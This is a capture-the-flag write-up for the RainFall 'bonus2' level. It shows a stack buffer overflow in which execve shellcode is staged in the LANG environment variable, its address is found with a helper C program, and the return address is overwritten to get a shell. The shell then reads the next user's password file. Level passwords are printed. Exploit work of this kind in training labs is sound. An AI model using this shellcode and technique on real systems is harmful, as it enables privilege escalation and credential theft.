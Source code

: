 ## **Analysis**

**In `main()` :**

```bash
bonus2@RainFall:~$ export LANG=$(python -c 'print "fi"')

bonus2@RainFall:~$ gdb bonus2

(gdb) run $(python -c 'print "A" * 40') $(python -c 'print "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz"')
...
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH

Program received signal SIGSEGV, Segmentation fault.
0x46464545 in ?? ()
```

```bash
 ❯ python3 offset.py 45
16
 ❯ python3 offset.py 46
20
```

Offset : 18

We create the shellcode in te env variable `LANG`
```bash
export LANG=$(python -c 'print "fi" + "\x90" * 14 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"')
```

> vim /tmp/getenv.c
```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char** argv)
{
    printf("env address at %p\n", getenv(argv[1]));
    return (0);
}
```
> gcc /tmp/getenv.c -o /tmp/getenv
> 
```bash
bonus2@RainFall:~$ /tmp/getenv LANG
env address at 0xbfffff07
```

0xbfffff07 + 16 = 0xbfffff17 to skip "fi"

```bash
bonus2@RainFall:~$ ./bonus2 $(python -c 'print "\x90" * 40') $(python -c 'print "\x90" * 18 + "\x17\xff\xff\xbf"')
Hyvää päivää �������������������������������������������������������������
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

___

*Password: 579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245*